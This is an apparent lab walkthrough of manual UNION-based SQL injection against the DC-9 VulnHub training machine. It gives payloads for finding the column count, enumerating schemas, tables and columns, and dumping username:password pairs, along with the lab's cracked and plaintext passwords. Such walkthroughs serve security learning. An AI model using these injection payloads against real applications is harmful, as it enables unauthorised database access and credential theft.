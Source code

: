 # Example

I'm using DC-9 from VulnHub as an example.

What we are exploring:

![](../../../.gitbook/assets/18b4269b74584646a3c791cb5a53dbb1.png)

How does it behave when searching for 'Tom':

![](../../../.gitbook/assets/c69dbe5bcc0e441496cc0430698b8cb7.png)

Trying `Tom' OR '1' = '1` returns nothing

Trying a commentary: `Tom' -- -` returns the result normally, so we identified it is vulnerable to SQLi. This is the query we will be developing from.

So now, we need to define some stuff:

**1. What we think the query is:**

`SELECT * FROM USERS WHERE FIRST_NAME = 'userinput'-- -`

**2. What we want to do:**

Explore UNION queries to gather data.

**3. What do we need to do UNION:**

Understand the \* from the first query. Because UNION only works when the query is balanced in a sense that you need both the primary and the subquery to parse the same number of 'fields'.

We already have a pretty good indicator to how many fields that \* is representing, since the result returns 5 different values:

ID  
Name  
Position  
Phone  
Email

So this is at least 5 fields. To make sure this is the right answer, we can simply UNION SELECT like this:

```text
Tom' UNION SELECT 1,2,3,4,5-- -
```

You need to remember that the UNION SELECT is a subquery and it needs to respect the field number of the primary query.

When trying that query though, it returns nothing, this means that it actually don't have 5 fields. What we can do to discover how many are there, we can basically start from 1 field and increase the value each query until it returns correctly.

```text
Tom' UNION SELECT 1-- -
Tom' UNION SELECT 1,2-- -
Tom' UNION SELECT 1,2,3-- -
...
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

We can put that through a proxy \(I'm using OWASPZAP, but you can use BURP\). Or put that direct in the browser. Ill use the browser as example because its better to visualize and explain, but you should be doing all this inside your proxy.

When querying with 6 fields:

```text
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

This is what we see:

![](../../../.gitbook/assets/54f6d4677b694bc0901a247e2585031a.png)

So there are actually 6 fields, the Name field can be divided in FIRST\_NAME and LAST\_NAME

So the query becomes:

```text
SELECT ID, FIRST_NAME, LAST_NAME, POSITION, PHONE, MAIL FROM USERS WHERE FIRST_NAME = 'userinput'-- -
```

Now that we know how many fields there are, we can start gathering data, for example, which database we are in right now. Since the UNION subquery is already working, we can simply replace one of the 6 fields to something we want to:

```text
Tom' UNION SELECT database(),2,3,4,5,6-- -
```

![](../../../.gitbook/assets/6c36787b99ae437588beba86afe2eb81.png)

So now we know that the database is Staff.

Now we can request information from the main 3 tables from the information\_schema database, which is like the metadata.

schema\_name inside INFORMATION\_SCHEMA.SCHEMATA = Stores database names  
INFORMATION\_SCHEMA.TABLES = Stores tables names  
INFORMATION\_SCHEMA.COLUMNS = Stores columns names

To gather database names, for example, we can:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata-- -
```

Which returns the current database name, however, we can use the LIMIT function to discover the other databases names:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 1,1-- -
which returns:
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 2,1-- -
Which returns:
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 3,1-- -
Which returns:
ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

When it stops returning data, you know you verified all possible values.

Other way to gather this information is to use group\_concat, which puts every value in a single line:

```text
Tom' UNION SELECT group_concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata-- -
Which returns:
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

**From now on, I'll be ommiting part of the output and formatting the important part for a better understanding.**

Since we discovered all the existent databases, now we need to discover the tables. Lets start with the staff db:

```text
Tom' UNION SELECT group_concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.tables where table_schema = "Staff"-- -
Which returns:
StaffDetails
Users
```

So now we now that there are only two tables inside Staff database: StaffDetails and Users.

Now, lets discover the columns in each of this tables:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "StaffDetails"-- -
Which returns:
id
firstname
lastname
position
phone
email
reg_date
```

Now for Users:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "Users"-- -
Which returns:
UserID
Username
Password
```

Another way to discover where each column is located is using a second parameter in concat:

```text
Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff"-- - 
Which returns:

StaffDetails:id
StaffDetails:firstname
StaffDetails:lastname
StaffDetails:position
StaffDetails:phone
StaffDetails:email
StaffDetails:reg_date
Users:UserID
Users:Username
Users:Password
```

Now, since we already discoverd the structure of the Staff table, we can do the same to the database users:

```text
search=Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "users"-- - 
Which returns:

UserDetails:id
UserDetails:firstname
UserDetails:lastname
UserDetails:username
UserDetails:password
UserDetails:reg_date
```

After all this work, we can start analyzing the database and then gather information we consider useful. We have two different sets of username and passwords, one from Staff.Users and other from users.UserDetails

```text
Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- - 
Which returns:
admin:856f5de590ef37314e7c3bdf6f8a66dc

after brute-forcing it:
admin:transorbital1
```

```text
search=Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM users.UserDetails -- - 
Which returns:
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

